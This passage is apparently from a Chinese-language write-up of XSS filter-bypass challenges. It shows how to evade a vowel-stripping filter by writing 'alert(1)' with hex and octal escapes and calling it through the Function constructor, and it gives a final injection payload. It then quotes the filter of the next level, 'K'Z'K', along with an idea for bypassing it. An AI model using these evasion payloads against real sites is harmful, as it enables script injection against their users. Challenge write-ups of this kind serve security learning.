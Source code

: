 此题替换所有的`aeiouy`，可以使用匿名函数，将其中的替换成十六进制或者8进制即可。

```
[]["pop"]["constructor"]('alert(1)')()
```
十进制
```
>>> (ord('o'))
111
>>> (ord('u'))
117
>>> (ord('a'))
97
>>> (ord('e'))
101
```

十六进制
```
hex(ord('o')) 	'0x6f'
hex(ord('u')) '0x75'
hex(ord('a')) '0x61'
hex(ord('e')) '0x65'

```
即
```
[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()
```
八进制：
```
oct(ord('o')) '0157'
oct(ord('u')) '0165'
oct(ord('a')) '0141'
oct(ord('e')) '0145'
```
即
```
[]["p\157p"]["c\157nstr\165ct\157r"]('\141l\145rt(1)')()
```
最终的payload为：
```
");[]["p\157p"]["c\157nstr\165ct\157r"]('\141l\145rt(1)')();//
```


## K'Z'K
```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels and escape sequences in honor of K'Z'K 
    // y is only sometimes a vowel, so it's only removed as a literal
    s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```
貌似这道题把这几个字母的字符，十进制，十六进制，八进制都给过滤掉了，还过滤了其他字符。
但是由于替换掉的字符为空，我们可以利用多字符拼接，把目标字符保留下来。
